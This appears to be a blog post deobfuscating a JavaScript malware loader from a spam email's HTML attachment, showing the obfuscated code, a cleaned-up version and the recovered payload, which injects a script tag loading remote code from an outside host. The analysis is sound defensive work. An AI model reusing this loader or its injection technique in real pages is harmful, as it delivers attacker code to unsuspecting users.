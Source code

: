 ```yaml
---
layout: '../../layouts/BlogPost.astro'
title: Deobfuscating a simple html malware loader
subtitle: 
publishDate: 2023-03-14
description: 
tags: ['obfuscation', 'web', 'malware']
permalink: https://halb.it/posts/html-loader-deobfuscation/
---
```


Recently I got my hands on a malicious spam email that contained an HTML attachment with the following script:

```js
function a0uqiiqu(){var tvtetaepmuol=['124DmjXwe','src','https://dos.com','512295URcyIF','750664RVFSzX',
'36WPNViT','34947uflpIw','59941oAwubn','createElement','1934810DDyBir','47565AALipC','1944VdGjMp',
'.gt/udu/udu.js?','script','12gOlcLD','200pNfvmM','3438gqVBAW'];a0uqiiqu=function(){return tvtetaepmuol;};
return a0uqiiqu();}var a0tauiqnasu=a0ouetecdcnseettrulcs;(function(uegtaapfalc,ipartuuqsrnae){
var umuqirae=a0ouetecdcnseettrulcs,eedxpatuti=uegtaapfalc();while(!![]){try{var lucesdeteds=-parseInt(
umuqirae(0xe9))/0x1*(parseInt(umuqirae(0xe8))/0x2)+-parseInt(umuqirae(0xed))/0x3+parseInt(umuqirae(0xea)
)/0x4*(-parseInt(umuqirae(0xe3))/0x5)+parseInt(umuqirae(0xe7))/0x6*(-parseInt(umuqirae(0xf1))/0x7)+-
parseInt(umuqirae(0xee))/0x8*(-parseInt(umuqirae(0xef))/0x9)+parseInt(umuqirae(0xf3))/0xa+parseInt(
umuqirae(0xf0))/0xb*(parseInt(umuqirae(0xe4))/0xc);if(lucesdeteds===ipartuuqsrnae)break;else eedxpatuti[
'push'](eedxpatuti['shift']());}catch(ieitmuosrseubp){eedxpatuti['push'](eedxpatuti['shift']());}}}(
a0uqiiqu,0x3eb7d));var incidunt=document[a0tauiqnasu(0xf2)](a0tauiqnasu(0xe6));function 
a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs){var uegtaapfalc=a0uqiiqu();return a0ouetecdcnseettrulcs=
function(ipartuuqsrnae,eedxpatuti){ipartuuqsrnae=ipartuuqsrnae-0xe3;var lucesdeteds=uegtaapfalc[
ipartuuqsrnae];return lucesdeteds;},a0ouetecdcnseettrulcs(uqiiqu,ouetecdcnseettrulcs);}incidunt[a0tauiqnasu(
0xeb)]=a0tauiqnasu(0xec)+a0tauiqnasu(0xe5)+'83642',document['head']['appendChild'](incidunt);

```

It is a simple loader that downloads and runs an external script from the internet.<br/>
The obfuscation is not sophisticated since it's only there to avoid automated analysis, so despite the scary look, the code is pretty simple to understand.

After formatting everything and renaming some variables, we obtain this code:

```js
function getStrArray() {
  return ["124DmjXwe", "src", "https://dos.com", "512295URcyIF", "750664RVFSzX", "36WPNViT", "34947uflpIw", "59941oAwubn", "createElement", "1934810DDyBir", "47565AALipC", "1944VdGjMp", ".gt/udu/udu.js?", "script", "12gOlcLD", "200pNfvmM", "3438gqVBAW"];
}
function getStrArrayElement(param1, unused_param2) {
    var strArray = getStrArray();
    param1 = param1 - 227;
    return strArray[param1];
}



(function scramble_str_array(getStrArray, hardcodedInteger) {
  var umuqirae = getStrArrayElement, eedxpatuti = getStrArray();
  while (true) {
    try {
      var lucesdeteds = -parseInt(umuqirae(233)) / 1 * (parseInt(umuqirae(232)) / 2) + -parseInt(umuqirae(237)) / 3 + parseInt(umuqirae(234)) / 4 * (-parseInt(umuqirae(227)) / 5) + parseInt(umuqirae(231)) / 6 * (-parseInt(umuqirae(241)) / 7) + -parseInt(umuqirae(238)) / 8 * (-parseInt(umuqirae(239)) / 9) + parseInt(umuqirae(243)) / 10 + parseInt(umuqirae(240)) / 11 * (parseInt(umuqirae(228)) / 12);
      if (lucesdeteds === hardcodedInteger) break; else eedxpatuti.push(eedxpatuti.shift());
    } catch (ieitmuosrseubp) {
      eedxpatuti.push(eedxpatuti.shift());
    }
  }
}(getStrArray, 256893));



var incidunt = document[getStrArrayElement(242)](getStrArrayElement(230));
incidunt[getStrArrayElement(235)] = getStrArrayElement(236) + getStrArrayElement(229) + "83642", document.head.appendChild(incidunt);
```

Lets break it down:

- The first block defines an array of strings

- In the second block a mysterious algorithm inside an infinite loop scrambles the content of the array

- In the final block the actual payload is defined using strings from the scrambled array


The scrambler algorithm looks pretty complicated. Luckily, we don't have to understand it. Instead, we can use an old trick and replace the code payload with a string:

```js
var deobfuscated_payload_str = `
  var incidunt = document[${getStrArrayElement(242)}](${getStrArrayElement(230)});

  incidunt[${getStrArrayElement(235)}] = ${getStrArrayElement(236)} + ${getStrArrayElement(229)} + "83642",
    document.head.appendChild(incidunt);
`

console.log(deobfuscated_payload_str)

```

Now we can safely run the script. Instead of executing its malicious payload, it will kindly print it to us:

```js
var incidunt = document[createElement](script);

incidunt[src] = https://dos.com + .gt/udu/udu.js? + "83642",
  document.head.appendChild(incidunt);
```

This is the code that the obfuscation was hiding. As we expected it's not particularly exciting. More so, the payload it's trying to load does not exist anymore on that url, so the research ends abruptly here.


